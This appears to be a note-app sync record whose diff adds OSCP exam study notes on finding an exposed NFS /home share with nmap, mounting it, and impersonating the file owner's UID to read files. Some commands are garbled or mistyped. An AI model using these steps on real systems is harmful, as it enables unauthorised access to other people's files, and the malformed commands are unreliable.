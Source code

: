 id: 5ebffb4a581c4465b9d9f744ea8b1538
parent_id: 20cd5702df5f4070a7626ac32fde683f
item_type: 1
item_id: 5c154102202a4bc2810ada55f25852e7
item_updated_time: 1642326929173
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" you are\"],[1,\"\\\n\\\n<ins>Example of Vuln config; OSCP EXAM HAPPENED</ins>\\\n\\\nIf you wish to use NSE scripts:nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254\\\n\\\n![7a58718293ff72b88d3e48b60dfc46d7.png](:/a6a3e955d5ca4466a074924b94657fda)\\\n\\\nThis case -- /home is being shared, and can be accessed by mounting it on our kali machine.\\\n\\\nTo do so:\\\n\\\n> mkdir home;\\\n> \\\n> sudo mount -I nolock $IP/home ~/home/;\\\n\\\n- -nolock will disable file locking\\\n\\\nIf we try to view files within that mounted folder, there won't be any permissions granted\\\n\\\nWhat we can do is to replicate the user by creating a user with the same UUID, su to that user and access the file\\\n\\\n> Sudo adduser pwn; sudo sed 0u 0e 's/$Created\\\\_UUID/$permission\\\\_UUID/g' /etc/passwd; su pwn; cat $file\"]],\"start1\":1722,\"start2\":1722,\"length1\":8,\"length2\":733}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-16T09:55:29.323Z
created_time: 2022-01-16T09:55:29.323Z
type_: 13